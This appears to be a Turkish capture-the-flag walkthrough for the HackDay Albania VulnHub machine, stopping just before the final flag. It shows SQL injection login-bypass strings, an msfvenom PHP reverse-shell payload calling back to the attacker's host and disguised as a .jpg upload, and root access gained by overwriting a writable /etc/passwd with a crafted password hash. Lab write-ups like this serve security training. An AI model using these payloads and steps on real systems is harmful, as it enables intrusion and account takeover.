#   Hackaday Albania CTF

Selam,
HackDay Albania CTF 2016’da kullanılan sanal makinanın tam çözümünü yaptık, sizlerle paylaşmak istedik. Keyifli okumalar.

**HackDay Albania CTF**

VM hakkında ayrıntılı bilgi alabileceğiniz ve indirme bağlantısını bulabileceğiniz link aşağıdadır

[VulnHub](https://www.vulnhub.com/entry/hackday-albania,167/)

#   VM çözümü

İlk önce kendi sistemimizin nasıl bir ağ yapılandırması ile çalıştığını öğrenmek için

    ifconfig

komutu ile kendi IP adresimizi ve Subnet Mask’ımızı öğrenip(192.168.1.0/24 ağında bulunuyorum)

    nmap 192.168.1.1/24

komutunu kullanarak içinde bulunduğumuz ağda bulunan diğer cihazları bulmak için nmap aracını **192.168.1.1/24** ağına yönelik normal tarama yapması için çalıştırıyoruz. Tarama sonucunda, **192.168.1.10** IP adresine sahip hedefimizin üzerinde; 22 TCP portunda SSH, 8008 TCP portunda bir HTTP servisinin açık olduğunu keşfediyoruz.



Fakat normal taramada (ki bu top 1000 porttur) açık olmayan, ama servis verir durumda olan bir port olup olmadığını öğrenmek için hedef sisteme standart tarama yerine birde ayrıca full port taraması yapıyoruz, böylelikle top 1000 port arasında olmayan ama servis verir yani açık durumda olan portları da tespit edebilriz.
Örnek olarak, kendi sistemimizde bulunan SSH servisini normalde hizmet vermesi gereken 22 numaralı porttan 1996 portuna taşırsak normal tarama ve full port tarama sonucu aşağıdaki gibi olacaktır.



    nmap -n -p 1-65535 -sV 192.168.1.10 --open
    
ile tüm açık tcp portlarını listeliyoruz ancak bunlara ek açık bir port göremiyoruz
bunun üzerine HTTP portuna yönelip browserımızda

    192.168.1.10:8080
    
adresine gitmeyi deniyoruz. 8008 portunu belirtmek zorundayız çünkü HTTP 
varsayılan portu 80 dir ve browser 80 portunu deneyeceği için hata alıcaktır.
Siteye girdiğimizde bizi Elliot Alderson yani nam-ı diğer Mr.Robot
karşılıyor ve bilmediğimiz bir dilde yazılmış birkaç satır translateden
çevirince çok anlamlı çıkmasa da arnavutça yazılmış **nereye gideceğini
bildiğini** ifade ediyor. Sayfa kodlarında da birşey bulamayınca, 
hemen adresi **owasp zap* aracında tarattığımızda birşey gözümüze çarpıyor:

    robots.txt
    



içerisindeki adresleri denediğimizde de hep aynı sayfa ve kaynak
kodlarında da ekstra birşey bulamıyoruz.



Fakat ortalara doğru

    /unisxcudkqjydw 

adresini girdiğimizde farklı bir sayfa ve bir ipucuyla karşılaşıyoruz



tabi hemen ipucunu değerlendirip sonuna ekliyoruz. Yani adresi

    192.168.1.10:8008/unisxcudkqjydw/vulnbank/

haline getiriyoruz ve gelen sayfadaki client linkini denediğimizde de bizi çok 
güvenli olduğunu iddia eden bir banka karşılıyor. Tabiki aklımıza hemen sql
geliyor ve tepki ölçmek adına kullanıcı ve parola kısmına birer tırnak(')
koyuyoruz. Oltaya takılan balık ilk başta bizi çok heyecanlandırıyor.



MySQL servisi kullanıldığını ve istismar et beni dercesine bakan bir mesajı
görüyoruz. Hemen büyük bir özgüvenle 

    ' or '1' = '1

olarak bilinen genel yöntemi deniyoruz ancak çok ta sazan olmadığını
kanıtlarcasına bizi başta ürküten bir hata alıyoruz:

    Invalid Credentials...

tabi pes etmeyip bikaç genel geçer yöntem daha deniyoruz ancak o bize biz
ona bakıyoruz. Sonra yorum satırı haline getirsek nolur diye düşünüp
username ve password'e:

    ' or 'aucc' = 'aucc';#

yazarak (sadece username'e yazıp password'ü gereksiz doldursanızda olur)
mysql kodunu doğru döndürüp kalan sorguyu yorum haline getiriyoruz
ve 25000 euroluk hesabıyla bizi charles karşılıyor.



fakat gözümüz hala doymamış olacakki sistem hedefinden şaşmayıp sağda duran "Contact Support"
kısmında file selecti görünce kalbimiz çarpıyor. Tabi durmayıp

    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw > aucc.php

ile **192.168.1.5** IP li kali makinemizin 4444 portuna yönlendiren
bir php payloadı üretip onuda raw formatında "aucc.php" adında
bir dosyaya yazıyoruz ve metasploitimizi de resimdeki gibi hazırlayıp



bizi renklerle kandıracağını düşünenlere de mesajımızı vererek
"aucc.php" yi yüklemeye çalışıyoruz 



fakat hacklendikten sonra artık sadece jpg ve türevi kabul ediyoruz diyerek bize kapıyı gösteriyor.



Bizde al sana jpg diyip "aucc.php" nin adını "aucc.jpg" olarak olarak değiştirip
yepyeni bir sticker göndermesiyle yüklüyoruz. 



Ve dosyayı yedirmeyi başardık. Fakat msfconsole hala bekliyor yani bizim bu dosyayı açtırmamız lazım.
bıraktığımız Ticketın üzerine tıklayıp, sistem "aucc.jpg" dosyasını açmaya çalışınca
msfconsole da bir hareketlilik baş gösteriyor ve meterpreter konsolundayız. Bana göre sahte kısmı burada
başlıyor çünkü normal sistemlerde karşımıza kolay kolay çıkmayacak olan olayla burada karşılaştım.

    /etc/group

dosyasından sudo yetkisine sahip kullanıcılara baktığımda 'taviso'yu görüp ona erişmeyi denesemde çözüm
bu olmadığından başaramadım. Fakat dediğim gibi karşımıza kolay kolay çıkmicak şekilde

    /etc/passwd 

nin izinlerine baktığımızda write iznini farkediyoruz. Tabi "meterpreter" dan bunu editlemek biraz
sancılı olacağı için

    download /etc/passwd

ile kaliye hedef makinenin passwd dosyasını indiriyoruz. eski linux sistemler şifreleri(hashlenmiş parolaları) de bu dosyada tutuyordu
fakat daha sonra istismar edilebilirliği daha doğrusu "bruteforce" u engellemek adına şifreleri **/etc/shadow** a
taşıyarak eskiden şifrelerin olduğu yere bir "x" bıraktılar ve bu yolla parola kontrolü için shadow a yönlendirme yaptılar.
shadow un okuma iznide yalnız rootta olduğu için bence "şimdilik yeterince güvenli" bir işe imza attılar. Bu bilgiyi kullanarak

    openssl passwd -1 -salt tuzlu aucc

ile passwd formatında md5(-1) tipinde "tuzlu" ile saltlanmış yani bruteforce u zorlaştırmak adına önlem alınmış ve parola olarak 'aucc'nin 
hashini üretiyoruz ve çıktı olarak :

    $1$tuzlu$LewyIW83SjgyBrkI29SWh0

alıp bunu herhangi bir editörde "taviso"nun yanındaki 'x' in yerine yapıştırıyoruz(x'i siliyoruz) ve kaydedip çıkıyoruz. 



Rootun parolasını da değiştirebilik ancak ben sudo yetkili kullanıcıyı tercih ettim. Düzenlediğimiz bu dosyayı tekrar meterpreterdan

    upload passwd /etc/passwd

ile hedef sistemdeki passwd nin yerine yüklüyoruz. Artık SSH ile bağlanıp doğru düzgün bir shellde devam edebiliriz.

    ssh taviso@192.168.1.10

ile bağlantımızı kurup parola olarak 

    aucc

yazıyoruz ve içerdeyiz. Son olarak flagi **/root** dizininde bulup

